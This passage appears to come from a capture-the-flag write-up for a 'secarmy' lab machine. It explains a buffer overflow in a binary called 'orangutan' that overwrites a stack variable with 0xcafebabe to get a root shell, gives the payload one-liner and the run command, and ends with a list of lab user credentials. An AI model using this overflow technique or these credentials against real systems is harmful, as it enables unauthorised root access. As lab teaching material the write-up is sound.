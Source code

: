As we can see in the code, in order to get a shell as root we need to write the value *0xcafebabe* in the variable *local_10*.  In order to do so we need to produce a **Buffer Overflow** in the variable *local_28* through the method *gets*.  The creation of the payload should look like this. (Python 2)

```bash
kali@kali:$ python -c "print 'A'*24+'\xbe\xba\xfe\xca'" > exploit.txt
```

Then, upload it to the *secarmy* machine using **scp** and execute it with the following command, becoming root }:) 

```bash
(cat exploit.txt; cat -) | ./orangutan
```

**Note:** If you want to learn more information about **Binary Exploitation I encourage you to read this [post](https://marmeus.tech/post/protostar-exploit-exercises).

## Credentials

```bash
uno:luc10r4m0n
dos:4b3l4rd0fru705
tres:r4f43l71n4j3r0
cuatro:p3dr00l1v4r3z
cinco:ruy70m35
seis:Hogwarts
siete:6u1l3rm0p3n473
ocho: m0d3570v1ll454n4
nueve:355u4z4rc0
```



